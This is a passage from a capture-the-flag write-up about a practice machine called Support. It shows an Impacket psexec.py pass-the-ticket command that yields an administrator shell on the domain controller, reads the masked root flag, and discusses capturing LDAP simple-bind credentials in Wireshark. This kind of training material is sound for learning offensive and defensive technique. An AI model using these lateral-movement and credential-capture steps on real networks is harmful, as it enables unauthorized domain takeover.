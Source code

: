 
    oxdf@hacky$ KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
    Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

    [*] Requesting shares on dc.support.htb.....
    [*] Found writable share ADMIN$
    [*] Uploading file aXlgPfYK.exe
    [*] Opening SVCManager on dc.support.htb.....
    [*] Creating service lyPY on dc.support.htb.....
    [*] Starting service lyPY.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.20348.405]
    (c) Microsoft Corporation. All rights reserved.

    C:\Windows\system32>



And grab `root.txt`:



    C:\Users\Administrator\Desktop> type root.txt
    f319ce3e************************



## Beyond Root

[Above](#dynamic), I pulled the LDAP creds out of Wireshark. It turns
out this only works on Linux, not Windows (at least as far as I could
figure out).

I'll note on Linux (for example `mono UserInfo.exe find -first 0xdf`)
the conversation looks like this:

![](/img/image-20221215134817752.png)

The most important part is the `bindRequest(1)` for the `support\ldap`
user with "simple" auth.

The same run on Windows shows this:

![](/img/image-20221215135205462.png)

The `bindRequest` this time is using "NTLMSSP_NEGOTIATEsasl". This is a
more secure form of auth where passwords are not passed in the clear.
The TCP stream looks like:

![](/img/image-20221215135412325.png)

IppSec and I spent 30 minutes trying to figure out if we could tell
Windows to only use the insecure simple auth, but couldn't force it.





